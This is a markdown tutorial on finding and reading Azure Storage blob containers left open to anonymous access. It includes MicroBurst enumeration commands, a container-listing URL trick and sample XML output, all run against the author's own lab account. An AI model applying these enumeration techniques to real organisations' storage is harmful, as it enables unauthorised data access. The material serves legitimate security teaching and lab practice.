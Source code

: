 ```yaml
---
author: andrei8055
title: Anonymous Blob Access
description: Finding and accessing files stored in Azure Storage Accounts without authentication.
---
```


Originally Research: [0xPwN Blog - Create an Azure Vulnerable Lab: Part #1 – Anonymous Blob Access](https://0xpwn.wordpress.com/2022/03/05/setting-up-an-azure-pentest-lab-part-1-anonymous-blob-access/) 

"Storage Accounts" is the service provided by Azure to store data in the cloud. A storage account can used to store:

- Blobs
- File shares
- Tables
- Queues
- VM disks

![Azure Storage Account](https://www.partech.nl/-/media/habitat/images/blog/azure-storage-account/azure-storage-types.ashx?mw=900&hash=555BFCDE52A79D19432AA476A2935234)

For this tutorial, we will focus on the Blobs section. Blobs are stored within a container, and we can have multiple containers within a storage account. When we create a container, Azure will ask on the permissions that we grant for public access. We can chose between:

- Private Access – no anonymous access is allowed
- Blob Access – we can access the blobs anonymously, as long as we know the full URL (container name + blob name)
- Container Access – we can access the blobs anonymously, as long we know the container name (directory listing is enabled, and we can see all the files stored inside the container)

As you might have guessed, granting Container Access permission can be easily abused to download all the files stored within the container without any permissions as the only things required to be known are the storage account name and the container name, both of which can be enumerated with wordlists.

## Exploiting Anonymous Blob Access

Now, there are thousands of articles explaining how this can be abused and how to search for insecure storage in Azure, but to make things easier I’ll do a TL:DR. One of the easiest way is to use MicroBurst, provide the storage account name to search for, and it’ll check if the containers exists based on a wordlist saved in the Misc/permutations.txt:

```
PS > import-module .\MicroBurst.psm1
PS> Invoke-EnumerateAzureBlobs -Base 0xpwnstorageacc
Found Storage Account - 0xpwnstorageacc.blob.core.windows.net
Found Container - 0xpwnstorageacc.blob.core.windows.net/public
Public File Available: https://0xpwnstorageacc.blob.core.windows.net/public/flag.txt
```

Alternatively adding ```?restype=container&comp=list``` after the container name:
```
https://<storage_account>.blob.core.windows.net/<container>?restype=container&comp=list
```
Output:
```

<EnumerationResults ContainerName="https://0xpwnstorageacc.blob.core.windows.net/public">
	<Blobs>
		<Blob>
			<Name>flag.txt</Name>
			<Url>
https://0xpwnstorageacc.blob.core.windows.net/public/flag.txt
</Url>
			<Properties>
				<Last-Modified>Sat, 05 Mar 2022 18:02:14 GMT</Last-Modified>
				<Etag>0x8D9FED247B7848D</Etag>
				<Content-Length>34</Content-Length>
				<Content-Type>text/plain</Content-Type>
				<Content-Encoding/>
				<Content-Language/>
				<Content-MD5>lur6Yvd173x6Zl1HUGvtag==</Content-MD5>
				<Cache-Control/>
				<BlobType>BlockBlob</BlobType>
				<LeaseStatus>unlocked</LeaseStatus>
			</Properties>
		</Blob>
	</Blobs>
	<NextMarker/>
</EnumerationResults>
```
